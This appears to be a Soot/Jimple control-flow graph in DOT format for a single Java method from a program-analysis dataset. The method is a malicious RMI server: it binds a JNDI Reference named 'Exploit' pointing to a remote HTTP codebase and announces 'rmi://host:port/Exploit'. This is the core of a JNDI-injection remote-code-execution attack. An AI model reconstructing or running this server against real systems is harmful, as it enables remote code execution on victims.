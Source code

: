 digraph "unitGraph" {
    "Block 0:
[preds: ] [succs: ]
r0 := @parameter0: java.lang.Integer;
r4 := @parameter1: java.lang.String;
r7 := @parameter2: java.lang.Integer;
$i0 = virtualinvoke r0.<java.lang.Integer: int intValue()>();
r1 = staticinvoke <java.rmi.registry.LocateRegistry: java.rmi.registry.Registry createRegistry(int)>($i0);
$r2 = new java.lang.StringBuilder;
specialinvoke $r2.<java.lang.StringBuilder: void <init>()>();
$r3 = virtualinvoke $r2.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"http://\");
$r5 = virtualinvoke $r3.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r4);
$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\":\");
$r8 = virtualinvoke r7.<java.lang.Integer: java.lang.String toString()>();
$r9 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>($r8);
$r10 = virtualinvoke $r9.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"/\");
r11 = virtualinvoke $r10.<java.lang.StringBuilder: java.lang.String toString()>();
$r12 = new javax.naming.Reference;
specialinvoke $r12.<javax.naming.Reference: void <init>(java.lang.String,java.lang.String,java.lang.String)>(\"Exploit\", \"Exploit\", r11);
r13 = $r12;
$r14 = new com.sun.jndi.rmi.registry.ReferenceWrapper;
specialinvoke $r14.<com.sun.jndi.rmi.registry.ReferenceWrapper: void <init>(javax.naming.Reference)>(r13);
r15 = $r14;
interfaceinvoke r1.<java.rmi.registry.Registry: void bind(java.lang.String,java.rmi.Remote)>(\"Exploit\", r15);
$r17 = <java.lang.System: java.io.PrintStream out>;
$r16 = newarray (java.lang.Object)[3];
$r16[0] = r0;
$r16[1] = r4;
$r16[2] = r0;
$r18 = staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>(\"[*] RMI server listening on: 0.0.0.0:%d (rmi://%s:%d/Exploit)\", $r16);
virtualinvoke $r17.<java.io.PrintStream: void println(java.lang.String)>($r18);
return;
"
}
